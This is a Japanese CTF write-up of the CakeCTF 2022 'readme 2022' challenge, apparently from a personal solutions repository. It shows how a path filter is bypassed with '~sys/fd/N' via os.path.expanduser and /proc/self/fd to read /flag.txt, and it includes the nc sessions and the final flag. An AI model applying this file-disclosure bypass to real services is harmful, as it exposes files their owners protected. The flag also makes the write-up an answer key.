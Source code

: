 # readme 2022:misc:133pts
`nc misc.2022.cakectf.com 12022`  

[readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz](readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz)  

# Solution
どこかで見たような問題名だ。  
ひとまずソースを見ると以下のようであった。  
```python
import os

try:
    f = open("/flag.txt", "r")
except:
    print("[-] Flag not found. If this message shows up")
    print("    on the remote server, please report to amdin.")

if __name__ == '__main__':
    filepath = input("filepath: ")
    if filepath.startswith("/"):
        exit("[-] Filepath must not start with '/'")
    elif '..' in filepath:
        exit("[-] Filepath must not contain '..'")

    filepath = os.path.expanduser(filepath)
    try:
        print(open(filepath, "r").read())
    except:
        exit("[-] Could not open file")
```
フラグは同梱されていたDockerfileから`/flag.txt`にあるようだ。  
スクリプトは入力のパスにあるファイルを読み取って表示するだけだが、`..`と`/`での開始が禁止されている。  
明らかに`os.path.expanduser(filepath)`が怪しいので、[ドキュメント](https://docs.python.org/3/library/os.path.html#os.path.expanduser)を見てみる。  
どうやら`~user`がそのユーザのホームディレクトリに置換されるらしい。  
例えば`~ctf`ならば`/home/ctf`となる。  
ここで`/etc/passwd`などを見てやり、`/`に近いホームディレクトリを持つユーザを調査する。  
```bash
ctf@0fb006453c11:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
すると`sys`ユーザのホームが`/dev`であることがわかる。  
`~sys`が`/dev`になるので、この直下をシンボリックリンクなどを期待して漁る。  
```bash
ctf@0fb006453c11:/app$ ls -al /dev
total 4
drwxr-xr-x 5 root root    360 Sep  3 17:27 .
drwxr-xr-x 1 root root   4096 Sep  3 05:27 ..
crw--w---- 1 ctf  tty  136, 0 Sep  3 17:27 console
lrwxrwxrwx 1 root root     11 Sep  3 17:27 core -> /proc/kcore
lrwxrwxrwx 1 root root     13 Sep  3 17:27 fd -> /proc/self/fd
crw-rw-rw- 1 root root   1, 7 Sep  3 17:27 full
drwxrwxrwt 2 root root     40 Sep  3 17:27 mqueue
crw-rw-rw- 1 root root   1, 3 Sep  3 17:27 null
lrwxrwxrwx 1 root root      8 Sep  3 17:27 ptmx -> pts/ptmx
drwxr-xr-x 2 root root      0 Sep  3 17:27 pts
crw-rw-rw- 1 root root   1, 8 Sep  3 17:27 random
drwxrwxrwt 2 root root     40 Sep  3 17:27 shm
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stderr -> /proc/self/fd/2
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdin -> /proc/self/fd/0
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdout -> /proc/self/fd/1
crw-rw-rw- 1 root root   5, 0 Sep  3 17:27 tty
crw-rw-rw- 1 root root   1, 9 Sep  3 17:27 urandom
crw-rw-rw- 1 root root   1, 5 Sep  3 17:27 zero
```
`/dev/fd`が`/proc/self/fd`へのシンボリックリンクとなっている。  
問題のスクリプトは最初にopenしているので、何番かのfdが掴んでいるだろうと予測できる。  
あとは3以降を適当に試せばよい。  
```bash
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/3
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/4
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/5

^C
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/6
CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}


```
flagが得られた。  

## CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}